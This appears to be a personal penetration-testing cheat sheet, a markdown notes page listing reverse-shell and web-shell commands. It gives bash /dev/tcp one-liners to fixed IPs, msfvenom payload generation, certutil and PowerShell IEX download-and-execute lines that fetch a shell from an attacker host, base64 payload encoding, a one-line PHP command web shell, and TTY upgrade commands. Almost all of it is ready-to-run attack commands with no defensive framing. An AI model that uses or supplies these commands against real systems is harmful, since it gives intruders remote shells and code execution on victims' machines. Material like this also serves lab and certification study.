 ```yaml
---
sticker: emoji//1f41a
---
```

### Reverse Shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
##### Bash
```
bash -c "bash -i >& /dev/tcp/192.168.45.161/1443 0>&1"

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

/bin/bash -l > /dev/tcp/192.168.45.161/1443 0<&1 2>&1
```

### Windows
#####  CMD
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Transfer reverse shell to your users home directory.
certutil -urlcache -split -f http://192.168.45.178:80/myshell.exe C:\\users\\<user>\\myshell.exe"

#Execute
C:\\users\\<user>\\myshell.exe
```

##### SMB Share
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Setup smb server.
impacket-smbserver -smb2support kali $PWD

#Transfer and execute shell.
//<kali-ip>/kali/myshell.exe
```

##### Powershell

```
#Using powercat.
Method 1. IEX (New-Object System.Net.Webclient).DownloadString("http://<ip>/powercat.ps1");powercat -c <host_ip> -p <port> -e powershell
Method 2. powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"
```
##### Base64 Encode

```
#PowerShell Script
$Text = "YOUR_PAYLOAD_HERE"

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

#PowerShell Command
powershell -enc "<base64>"
powershell -a "-enc <base64>"
```

### Web Shells
##### ASP / ASPX

```
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp
```
### PHP

```
<?php system($_GET['cmd']); ?>
```

#### Upgrades
#### Linux
```
#interactive upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

#interactive upgrade
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'

#enables clear
export TERM=xterm
```

#### Windows
```
#If you are finding basic commands can't be recognised.
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;

```
